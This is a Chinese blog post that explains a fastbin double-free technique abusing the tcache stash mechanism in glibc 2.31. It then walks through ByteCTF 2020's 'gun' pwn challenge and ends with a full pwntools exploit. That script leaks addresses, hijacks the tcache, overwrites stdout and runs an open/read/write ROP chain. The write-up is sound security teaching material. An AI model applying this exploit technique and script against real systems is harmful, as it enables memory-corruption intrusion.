<!--yml
category: 未分类
date: 2022-04-26 14:47:28
-->

# glibc2.31下的新double free手法/字节跳动pwn题gun题解_一只狗20000402的博客-CSDN博客

> 来源：[https://blog.csdn.net/chennbnbnb/article/details/109284780](https://blog.csdn.net/chennbnbnb/article/details/109284780)

# 回顾double free手法

*   在glibc2.27之前，主要是fastbin double free：
    *   fastbin在free时只会检查现在释放的chunk，是不是开头的chunk，因此可以通过free(C1), free(C2), free(C1)的手法绕过
    *   并在在fastbin取出时，会检查size字段是不是属于这个fastbin，因此往往需要伪造一个size
*   glibc2.27~glibc2.28，主要是tcache double free
    *   相较于fastbin double free，tcache完全没有任何检查，只需要free(C1), free(C1)就可以构造一个环出来
*   glibc2.29～glibc2.31，tcache加入了检查机制，如何进行doubel free就是本文的核心

# Tcache的设计目的

tcache全称是Thead Cache的意思

在多线程情况下，ptmalloc会遇到抢占的问题，分配区被占用时只能等待或者申请一个非主分配区，效率低下

针对这种情况，ptmalloc为每个线程设置了一个缓冲区，这个缓冲区也就是tcache

因此tcache指针实际上位于TLS区域内，是各个线程独有的

# glibc2.31下的Tcache检查

对于每一个tcache中的chunk，增加了一个key指针，用于指向所属的tcache结构体

```
typedef struct tcache_entry
{
  struct tcache_entry *next;  //链表指针，对应chunk中的fd字段
  /* This field exists to detect double frees.  */
  struct tcache_perthread_struct *key;  //指向所属的tcache结构体，对应chunk中的bk字段
} tcache_entry;
```

当chunk被放入时会设置key指针

```
static __always_inline void
tcache_put(mchunkptr chunk, size_t tc_idx)
{
  tcache_entry *e = (tcache_entry *)chunk2mem(chunk);

  /* Mark this chunk as "in the tcache" so the test in _int_free will
     detect a double free.  */
  e->key = tcache;  //设置所属的tcache

  e->next = tcache->entries[tc_idx];//单链表头插法
  tcache->entries[tc_idx] = e;  

  ++(tcache->counts[tc_idx]); //计数增加
}
```

在free时，会进行检查，最笨的方法就是对于每一个chunk，我都遍历一遍链表，这种方法正确，但是会大大影响效率

ptmalloc使用了一种更机智的方法，在不影响效率的前提下，完成了对double free的检查，详细的看注释

```
 size_t tc_idx = csize2tidx(size);
    //只要tcache不为空，并且这个chunk属于tcache管辖范围，那么这个chunk就有可能已经在tcache中了，所以需要double free检查
    if (tcache != NULL && tc_idx < mp_.tcache_bins)
    {
      /* Check to see if it's already in the tcache.  */
      tcache_entry *e = (tcache_entry *)chunk2mem(p);

      /*
        如果是double free，那么put时key字段被设置了tcache，就会进入循环被检查出来
        如果不是，那么key字段就是用户数据区域，可以视为随机的，只有1/(2^size_t)的可能行进入循环，然后循环发现并不是double free
      */
      if (__glibc_unlikely(e->key == tcache))//剪枝
      {
        tcache_entry *tmp;
        LIBC_PROBE(memory_tcache_double_free, 2, e, tc_idx);
        for (tmp = tcache->entries[tc_idx]; tmp; tmp = tmp->next)
          if (tmp == e)
            malloc_printerr("free(): double free detected in tcache 2");
      }

      if (tcache->counts[tc_idx] < mp_.tcache_count)  //通过检查，放入tcahce中
      {
        tcache_put(p, tc_idx);
        return;
      }
    }
```

这些检查导致我们不能free任何一个已经在tcache中的chunk，绕过的方法有两个：

1.  想办法修改key字段
2.  使用fastbin double free

# Tcache的Stash机制

例如，当一个线程申请0x50大小的chunk时，如果tcache没有，那么就会进入分配区进行处理，

如果对应bin中存在0x50的chunk，除了取出并返回之外，ptmalloc会认为这个线程在将来还需要相同的大小的chunk

因此就会把对应bin中0x50的chunk尽可能的放入tcache的链表中去，本文只涉及fastbin Stash的利用，对于small bin有专门的手法，可以参考这个文章：[Tcache Stashing Unlink Attack Plus](https://qianfei11.github.io/2020/05/05/Tcache-Stashing-Unlink-Attack/#2019-HITCON-lazyhouse%EF%BC%88tcache-stashing-unlink-attack-plus%EF%BC%89)

```
 if ((unsigned long)(nb) <= (unsigned long)(get_max_fast())) //size在fastbin范围内
  {
    idx = fastbin_index(nb);
    mfastbinptr *fb = &fastbin(av, idx);
    mchunkptr pp;
    victim = *fb;

    if (victim != NULL) //如果有chunk
    {
      if (SINGLE_THREAD_P)
        *fb = victim->fd; //取出头chunk
      else
        REMOVE_FB(fb, pp, victim);

      if (__glibc_likely(victim != NULL)) 
      {
        size_t victim_idx = fastbin_index(chunksize(victim));
        if (__builtin_expect(victim_idx != idx, 0)) //对fastbin的size检查
          malloc_printerr("malloc(): memory corruption (fast)");
        check_remalloced_chunk(av, victim, nb);

#if 1 //if USE_TCACHE，Stash过程：把剩下的放入Tcache中
        /* While we're here, if we see other chunks of the same size,
		 stash them in the tcache.  */
        size_t tc_idx = csize2tidx(nb);
        if (tcache && tc_idx < mp_.tcache_bins) //如果属于tcache管辖范围
        {
          mchunkptr tc_victim;

          /* While bin not empty and tcache not full, copy chunks.  */
          while (tcache->counts[tc_idx] < mp_.tcache_count && (tc_victim = *fb) != NULL) //只要tcache没空，并且fastbin还有chunk
          {
            if (SINGLE_THREAD_P)  //那么就从fastbin中取出
              *fb = tc_victim->fd;
            else
            {
              REMOVE_FB(fb, pp, tc_victim);
              if (__glibc_unlikely(tc_victim == NULL))
                break;
            }
            tcache_put(tc_victim, tc_idx);//然后放入tcache中
          }
        }
#endif
        void *p = chunk2mem(victim);
        alloc_perturb(p, bytes);
        return p;
      }
    }
  }
```

# 当fastbin double free遇上Tcache Stash

在glibc2.31的环境下，假如现在有个double free，由于Tcache有检查，因此只能利用fastbin double free：

那么首先需要先释放7个chunk，填满tcache，然后free(C7) Free(C8) Free(C7)，在fastbin中构造出环，如下：



下一步，为了分配到fastbin，需要先申请7个，让Tcache为空，再次申请时就会使用fastbin中的C7，这一步就也就整个手法的精华

在glibc2.7以前，申请到C7，并在C7的fd字段写入target后，链表为：fastbin->C8->C7->target

但由于fastbin取出时检查size字段，导致这个写入很受限制，但在有了stash机制后，情况就变了

取出C7后，Stash会把fastbin链表中的chunk全部放入Tcache中，而C7又是被我们分配到的，这就导致我们实际上劫持的是Tcache链表，不需要伪造size字段，获得了一个真正的任意写



总结来说，在glibc>=2.29的情况下，通过fastbin double free，接触Stash机制，我们可以劫持Tcache链表，得到一个真正的任意写，我将其成为new fastbin double free手法

# Bytectf2020-pwn-gun

## 保护





只能ROP了

## 程序分析

*   Buy
    *   idx属于[0, 13]，根据标志位为0来寻找空闲的idx
    *   读入price：大于0x10，小于Remain，Remain初始化为0x1000
    *   ArrPtr[3*idx] = malloc(price)，并读入price长度字符串，以\n为结束标志
    *   ArrUsed后，Remain-=Price



*   Load
    *   读入idx，属于[0, 13]
    *   检查Bullet的状态，不为0/2
    *   使用头插法，将对于bullet连接进入链表Head
    *   设置bullet的状态为2，表示已经在链表中



```
struct Bullet{
	char* name;
    Bullet* next;
    int status;	//0:没准备好，1:准备好，2:已经在链表中
};
sizeof(Bullet) = 0x18
```

*   Shoot
    *   先检查链表是否为空
    *   读入要发射的子弹
    *   从链表头开始遍历：只要Head不为空&&i小于要发射的子弹数，
        *   那么就print子弹的name，然后释放free这个子弹
        *   Head = Head->next
        *   设置子弹的status = 0



## 漏洞

很隐蔽的UAF导致的double free

在买子弹的时候，并没有设置next为null



装载时，也没设置next为null



在最后发射时，是否进行free却依赖next!=null这个条件



如果申请后next有残留，那么就会导致一个意外的free

POC



## 思路

1.  先利用指针残留，泄露堆地址+libc地址
2.  通过new fastbin double 得到一个任意写，为了扩大战果，这个任意写用来打堆上的tcache结构体最划算
3.  劫持tcache中的entries链表头指针数组，一个指向_IO_2_1_stdout，另一个为了继续获得任意写，指向tcache结构自身
4.  打stdout，修改flag为0xFBAD1800，修改write的三个指针指向libc中的__envrion指针，从而实现任意读取，泄露栈地址
5.  通过另一个指向tcache自身的entries项，让tcache指向栈上的返回地址
6.  进行ROP

注意，判断是否使用tcache entries进行分配时，是通过counts数组判断的，所以劫持前需要先free几个，设置好counts

```
 if (tc_idx < mp_.tcache_bins && tcache && tcache->counts[tc_idx] > 0) //通过counts判读是否还有chunk
  {
    return tcache_get(tc_idx);
  }
```

## EXP

```
#! /usr/bin/python
from pwn import *
context.log_level = 'debug'
context(arch='amd64', os='linux')

#sh = process('./gun')
#proc_base = sh.libs()[sh.cwd + sh.argv[0].strip('.')]
sh = remote('123.56.96.75', 30772)
elf = ELF('./gun')
libc = ELF('./libc.so.6')

def Log(val):
	log.success('%s = %s'%(str(val), hex(eval(val))))

def Name(name):
	sh.recvuntil('name')
	sh.sendline(name)

def Cmd(i):
	sh.recvuntil('Action> ')
	sh.sendline(str(i))

def Buy(sz, cont):
	Cmd(3)
	sh.sendlineafter('Bullet price: ', str(sz))
	sh.recvuntil('Bullet Name: ')
	sh.send(cont)
	#sh.recvuntil('Confirm')

def Load(idxs):
	for idx in idxs:
		Cmd(2)
		sh.sendlineafter('Which one do you want to load?', str(idx))
		sh.recvuntil('Confirm')

def Fire(cnt):
	Cmd(1)
	sh.sendlineafter('Shoot time: ', str(cnt))

def Exit():
	Cmd(4)

Name('AAA')

#leak addr
for i in range(8):
	Buy(0x79, 'leak addr\n')	#chunk size: 0x90
Buy(0x10, 'gap\n')		#gap
Load([7, 6, 5, 4, 3, 2, 1, 0])
Fire(8)		#Tcache[0x90]->6->5->4->3->2->1->0, UB<=>7

for i in range(7):
	Buy(0x79, '\n')
Buy(0x10, '\n')	#splite UB

Load([0, 1, 2, 3, 4, 5, 6, 7])
Fire(8)
sh.recvuntil('Pwn! The ')
libc.address = u64(sh.recv(6)+'\x00\x00') - 0x1ebc60
Log('libc.address')

sh.recvuntil('Pwn! The ')
sh.recvuntil('Pwn! The ')
heap_addr = u64(sh.recv(6)+'\x00\x00') - 0x2d0
Log('heap_addr')

#Load([8])	#clean PtrArr
#Fire(1)

#overwrite stdout's flag
for i in range(8):
	Buy(0x10, str(i)*0x10)	#0x20 chunk
Load([3])	#UB will remain a 0x30 chunk for us, exclude it
Fire(1)
Buy(0x10, '3'*0x10)	#0x20 chunk

Load([8, 7, 6, 5, 4, 3, 2])	#full Tcache[0x20]
Fire(7)

Load([0, 1])
Fire(2)			#fastbin->0->1

Buy(0x10, 'A'*0x10)
Load([0])	
Fire(2)			#fastbin->1<->0, bullet is empty

Buy(0x2C0, 'tcache'+'\n')
Load([0])
Fire(1)

Buy(0x90, 'tcache'+'\n')
Load([0])
Fire(1)

for i in range(7):	#clean Tcache[0x20]
	Buy(0x10, str(i)*0x10)

target = heap_addr + 0xc8			#target = &tcache->next[0x90]
Log('target')

stdout = libc.address + 0x1ec6A0
Log('stdout')

env = libc.symbols['__environ']
Log('env')

Buy(0x10, p64(target)+'\n')				#ArrPtr[7]=C1	Stash: 	Tcache->0->1->target
Buy(0x10, 'flag1'+'\n')					#ArrPtr[8]=C0			Tcache->1->target
Buy(0x10, 'flag2'+'\n')					#ArrPtr[9]=C1			Tcache->target
Buy(0x10, flat(stdout, heap_addr+0x1e8))	#ArrPtr[10]=stdout 		Tcache[0x90]->stdout, Tcache[0xA0]->&tcache->next[0x2D0]

FILE = p64(0xFBAD1800)			#magic
FILE+= p64(0)*3					#read
FILE+= p64(env)+p64(env+8)*2	#write
Buy(0x80, FILE+'\n')

stack_addr = u64(sh.recv(8))
Log('stack_addr')

ret = stack_addr - 0x120
Log('ret')

Buy(0x90, p64(ret)+'\n')	#tcache->next[0x310] = ret

def Call(SYS_n, a, b, c):
	exp = p64(libc.address + 0x26b72)	#rdi
	exp+= p64(a)
	exp+= p64(libc.address + 0x27529)	#rsi
	exp+= p64(b)
	exp+= p64(libc.address + 0x11c371)	#rdx
	exp+= p64(c) + p64(0)
	exp+= p64(libc.address + 0x4a550)	#rax
	exp+= p64(SYS_n)
	exp+= p64(libc.address + 0x11BB09)	#syscall
	return exp

buf = heap_addr+ 0x1000
ROP = Call(0, 0, buf, 0x10)		#read(0, buf, 0x10)
ROP+= Call(2, buf, 0, 0)		#open(buf, 0, 0)
ROP+= Call(0, 3, buf, 0x50)		#read(3, buf, 0x50)
ROP+= Call(1, 1, buf, 0x50)		#write(1, buf, 0x50)

#gdb.attach(sh, 'break *'+hex(proc_base + 0x1A84))

Buy(0x2C0, ROP+'\n')	

Exit()
sh.recvuntil('Goodbye!')
sh.send('flag\x00')

sh.interactive()

'''
PtrArr 0x202040
Free()	break *(0x0000555555554000+0x167B)
Malloc	break *(0x0000555555554000+0x18C3)

bulletname 0x555555555919
45EB0

gdb.attach(sh, 'break *'+hex(proc_base + 0x1A84))	
gdb.attach(sh, 'telescope '+hex(proc_base+0x4050) + ' 44')
'''
```

## 相关文件

[https://github.com/chennbnbnb/-2020-pwn1-gun](https://github.com/chennbnbnb/-2020-pwn1-gun)